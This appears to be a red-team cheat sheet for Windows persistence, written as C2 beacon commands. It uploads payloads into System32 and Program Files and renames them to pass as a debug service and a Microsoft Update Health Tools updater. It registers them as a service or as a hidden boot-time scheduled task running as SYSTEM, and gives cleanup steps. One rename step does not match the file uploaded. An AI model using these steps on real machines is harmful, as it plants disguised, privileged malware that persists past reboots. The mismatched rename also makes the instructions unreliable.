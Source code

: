 ##### Windows service
```powershell
cd C:\Windows\System32\
upload C:\Payloads\http_x64.svc.exe
mv http_x64.svc.exe debug_svc.exe
```

```powershell
sc_create dbgsvc "Debug Service" C:\Windows\System32\debug_svc.exe "Windows Debug Service" 0 2 3
```

```powershell
sc_qc dbgsvc
```

Cleanup
```powershell
sc_delete dbgsvc
```

##### Scheduled Task
```xml
<Task xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
<Triggers>
    <BootTrigger>
        <Enabled>true</Enabled>
    </BootTrigger>
</Triggers>
<Principals>
    <Principal>
        <UserId>NT AUTHORITY\SYSTEM</UserId>
        <RunLevel>HighestAvailable</RunLevel>
    </Principal>
</Principals>
<Settings>
    <AllowStartOnDemand>true</AllowStartOnDemand>
    <Enabled>true</Enabled>
    <Hidden>true</Hidden>
</Settings>
<Actions>
    <Exec>
        <Command>"C:\Program Files\Microsoft Update Health Tools\updater.exe"</Command>
    </Exec>
</Actions>
</Task>
```

```powershell
cd C:\Program Files\Microsoft Update Health Tools
upload C:\Payloads\dns_x64.svc.exe
mv dns_x64.exe updater.exe
```

```powershell
schtaskscreate \Microsoft\Windows\WindowsUpdate\Updater XML CREATE
```

Cleanup
```powershell
schtasksdelete \Microsoft\Windows\WindowsUpdate\Updater TASK
```